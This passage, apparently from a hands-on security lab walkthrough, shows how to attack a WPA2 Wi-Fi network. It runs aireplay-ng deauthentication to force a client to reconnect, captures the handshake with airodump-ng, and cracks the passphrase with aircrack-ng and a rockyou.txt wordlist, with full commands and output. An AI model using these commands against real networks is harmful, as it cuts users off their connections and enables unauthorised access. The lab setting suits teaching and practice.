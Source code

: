 On the second terminal, we will launch the deauthentication attack. Because the client is already connected, we want to force them to reconnect to the access point, forcing it to send the handshake packets. We can break this down into 3 simple steps:

- **Deauthentication packets**: The tool aireplay-ng sends deauthentication packets to either a specific client (targeted attack) or to all clients connected to an access point (broadcast attack). These packets are essentially "disconnect" commands that force the client to drop its current Wi-Fi connection.
- **Forcing a reconnection**: When the client is disconnected, it automatically tries to reconnect to the Wi-Fi network. During this reconnection, the client and access point perform the 4-way handshake as part of the reauthentication process.
- **Capturing the handshake**: This is where airodump-ng comes into play because it will capture this handshake as it happens, providing the data needed to attempt the WPA/WPA2 cracking.
We can do this with **sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2**. The **-0** flag indicates that we are using the deauthentication attack, and the **1** value is the number of deauths to send. The -a indicates the BSSID of the access point and -c indicates the BSSID of the client to deauthenticate.

```console
glitch@wifi:~$ sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2
19:29:37  Waiting for beacon frame (BSSID: 02:00:00:00:00:00) on channel 6
19:29:38  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
```

Now, if we look back on our first terminal, we will see the WPA handshake shown on the top-right of our output as **WPA handshake: 02:00:00:00:00:00**. All of this information is being saved into our output files.

```console
 CH  6 ][ Elapsed: 1 min ][ 2024-11-02 19:30 ][ WPA handshake: 02:00:00:00:00:00 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 02:00:00:00:00:00  02:00:00:00:01:00  -29    1 - 5      0      140  EAPOL
```

In the second terminal, we can use the captured WPA handshake to attempt to crack the WPA/WP2 passphrase. We will be performing a dictionary attack in order to match the passphrase against each entry in a specified wordlist file. A shortened version of the infamous **rockyou.txt** wordlist has already been provided for us to use. This is located in the /**home/glitch/** directory. If the passphrase is weak and appears in the wordlist, it will eventually be cracked. The command **sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output.cap** will do this for us where the **-a 2** flag indicates the WPA/WPA2 attack mode. The **-b** indicates the BSSID of the access point, and the **-w** flag indicates the dictionary list to use for the attack. Finally, we select the output files that we will be using, which contain the 4-way handshake that we will be cracking.

```console
glitch@wifi:~$ sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
Reading packets, please wait...
Opening output-file-01.cap
Read 276 packets.
1 potential targets

                               Aircrack-ng 1.6 

      [00:00:01] 304/513 keys tested (217.04 k/s) 

      Time left: 0 seconds                                      59.26%

                 KEY FOUND! [ REDACTED ]


      Master Key     : B6 53 9A 71 8C C4 74 5F E3 26 49 82 37 74 65 09 
```